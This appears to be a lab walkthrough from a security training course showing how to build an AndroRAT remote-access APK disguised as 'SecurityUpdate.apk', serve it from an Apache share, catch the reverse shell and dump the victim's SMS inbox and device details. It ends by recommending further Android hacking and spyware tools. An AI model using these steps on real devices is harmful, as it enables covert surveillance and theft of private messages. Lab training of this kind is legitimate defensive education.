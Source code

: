 
In the Parrot Security machine, open a Terminal window and execute sudo su to run the programs as a root user (When prompted, enter the password toor).

Run cd AndroRAT command to navigate to the AndroRAT repository.

Run python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk command to create an APK file (here, SecurityUpdate.apk).

You can observe that an APK file (SecurityUpdate.apk) is generated at the location /home/attacker/AndroRAT/.

Run cp /home/attacker/AndroRAT/SecurityUpdate.apk /var/www/html/share/ command to copy the SecurityUpdate.apk file to the location share folder.
 If the share folder does not exist, then execute the following commands to create a share folder and assign required permissions to it:
Run mkdir /var/www/html/share command to create a shared folder
Run chmod -R 755 /var/www/html/share command
Run chown -R www-data:www-data /var/www/html/share command

Execute service apache2 start command to start an Apache web server.

Now, run python3 androRAT.py --shell -i 0.0.0.0 -p 4444 command to start listening to the victim's machine.
--shell: is used for getting the interpreter
-i: specifies the IP address for listening (here, 0.0.0.0)
 -p: specifies the port number (here, 4444)

You can observe that AndroRAT starts waiting for a connection.
switch to the Android emulator machine.

If the Android machine is non-responsive then, click the Commands icon from the top section of the screen and navigate to Power and Display --> Reset/Reboot machine.

In the Android Emulator GUI, click the Chrome icon on the lower section of the Home Screen to launch the browser

In the address bar, type http://10.10.1.13/share and press Enter.

The Index of /share page appears; click SecurityUpdate.apk to download the application package file.

If Chrome needs storage access to download files, a pop-up appears; click Continue. If any pop-up appears stating that the file contains a virus, ignore the message and download the file anyway.

If File can't be downloaded securely pop-up appears click Keep.

After the file downloads, File downloaded pop-up appears, click Open.

Google Service Framework window appears, click INSTALL button to install the malicious app.

 After the application is installed successfully, an App installed notification appears; click OPEN.

The malicious application starts running in the background without the victim being totally unaware of it.

switch back to the Parrot Security machine. The Interpreter session has been opened successfully, with a connection from the victim machine (10.10.1.14), as shown in the screenshot.

In the Interpreter session, type help and press Enter to view the available commands in the opened session.

Now, type deviceInfo and press Enter to view the device related information.

Type getSMS inbox and press Enter to obtain a file containing SMSes from the inbox of a victim device.

This file is stored at the location /home/attacker/AndroRAT/Dumps.

Type getMACAddress and press Enter to view the MAC address of the victim's device.

In a similar manner, you can attempt to execute additional commands available in the list of help commands to gather more information on the target device.

Type exit and press Enter to terminate the Interpreter session.


Use other Android hacking tools such as hxp_photo_eye (https://github.com), Gallery Eye (https://github.com), mSpy (https://www.mspy.com), and Hackingtoolkit (https://github.com) to hack Android devices.